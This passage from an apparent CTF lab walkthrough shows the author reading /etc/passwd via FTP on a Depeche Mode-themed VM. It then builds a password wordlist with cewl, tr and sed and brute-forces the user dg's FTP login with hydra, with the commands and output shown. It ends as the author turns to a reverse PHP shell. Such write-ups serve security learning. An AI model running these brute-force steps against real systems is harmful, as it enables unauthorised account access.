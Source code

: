 ```
ftp>
```

Now you can easily see ```/etc/passwd```, all the home directories, and ```/etc/group``` to determine what to do next.

```
dg:x:1000:1000:Dave Gahan,,,:/home/dg:/bin/bash
proftpd:x:104:65534::/var/run/proftpd:/bin/false
ftp:x:105:65534::/srv/ftp:/bin/false
mg:x:1001:1001:Martin Gore:/home/mg:/bin/bash
af:x:1002:1002:Andrew Fletcher:/home/af:/bin/bash
aw:x:1003:1003:Alan Wilder:/home/aw:/bin/bash
```

Notice ```dg, mg, af, and aw```, who are all members of Depeche Mode, which was referenced in an initial hint. I spent quite some time traversing their home directories, however I didn't have enough information to do anything yet. I found instructions for a Wermache enigma machine and some other hints, but I still needed key. I'll come back to this part in more detail later.

# Get access to the server

In ```/etc/group```, I can see that user ```dg``` is a member of several groups, so let's try to crack that password:

The only possible solution I have for this is the link to the album for Violator.

```
paul@archyoga [06:13:59] [~]
-> % cewl "https://en.wikipedia.org/wiki/Violator_(album)" -m 6 -w passwords.txt
CeWL 5.1 Robin Wood (robin@digi.ninja) (http://digi.ninja)

paul@archyoga [06:23:38] [~]
-> % tr '[:upper:]' '[:lower:]' < passwords.txt > passwords1.txt

paul@archyoga [06:23:40] [~]
-> % sed -i "s/ //g" passwords1.txt

paul@archyoga [06:23:42] [~]
-> % hydra -t 1 -l dg -P ./passwords1.txt -vV 192.168.1.108 ftp
Hydra v8.2 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

...
[21][ftp] host: 192.168.1.108 login: dg password: policyoftruth
[STATUS] attack finished for 192.168.1.108 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

First I used cewl to generate a password list based on the given url, then removed all the spaces and converted everything to lowercase using ```tr``` and ```sed```.

Now that I can actually create new files in the server, I generated a reverse php shell and used metasploit to get a shell on the machine:
